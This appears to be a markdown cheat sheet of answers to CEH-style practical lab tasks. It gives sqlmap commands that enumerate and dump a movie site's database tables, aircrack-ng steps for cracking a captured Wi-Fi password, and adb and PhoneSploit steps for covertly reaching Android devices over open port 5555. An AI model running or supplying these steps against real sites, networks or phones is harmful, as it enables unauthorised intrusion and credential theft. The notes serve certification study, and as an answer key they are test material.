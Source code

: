 
# SQL Injection

- Perform a SQL Injection attack on movies.cehorg.com and find out the number of users available in the database. 
    1. `sqlmap -u http://movies.cehorg.com/viewprofile.aspx?id=1 --cookie="mscope=Xf4nda2RM2w=" --dbs -batch`
        - enumerates database name
    2. `sqlmap -u http://movies.cehorg.com/viewprofile.aspx?id=1 --cookie="mscope=Xf4nda2RM2w=" -D moviescope --tables -batch`  
        - enumerates all tables
    3. `sqlmap -u http://movies.cehorg.com/viewprofile.aspx?id=1 --cookie="mscope=Xf4nda2RM2w=" -D moviescope -T User_login --dump -batch`
        - dumps all details

- Exploit the web application available at www.cehorg.com and enter the flag's value at the page with page_id=84.
    1. `nmap -sV --script=http-enum` [target domain or IP address]
    2. Find any input parameter on website and capture the request in burp and then use it to perform sql injection using sqlmap.
    3. Now open the burp and check the input parameters and intercept on then type some as “1 OR ANY TEXT” you get some value on burp copy that and create the txt file.(1 OR 1=1 #)
    4. `sqlmap -r <txt file from burpsuite> --dbs`
    5. `sqlmap -r <txt file from burpsuite> -D <database name> --tables`
    6. `sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --columns`
    7. `sqlmap -r <txt file from burpsuite> -D <database name> -T <table name> --dump-all`
    8. then login and do the url parameter change page_id=1 to `page_id=84`


# Wifi

- Crack the wireless encryption and identify the Wi-Fi password.
    1. `aircrack-ng ‘/home/wireless.cap’`
    2. `aircrack-ng -b 6c:24:a6:3e:01:59 -w ‘/home/wifipass`


# Mobile

- You are assigned to covertly access the user’s device and obtain malicious elf files stored in a folder "Scan".
    1. sudo nmap -p 5555 192.168.0.0/24
    2. adb connect 192.168.0.14:5555
    3. adb shell
    4. adb pull /sdcard/scan/
    5. ent -h or apt install ent
    6. ent evil.elf

- You are assigned a task to attain KEYCODE-75 used in the employees' mobile phone. Note: use option p in PhoneSploit for next page
    1. Search for devices with 5555 open port
        - `nmap -p 5555 --open -sV 172.16.0.0/24`
    2. Go to phonesploit and open it using python
    3. As the tool opens give ip address of the device
    4. Use `24` to get the keycode 
    5. Scroll down to 75 keycode
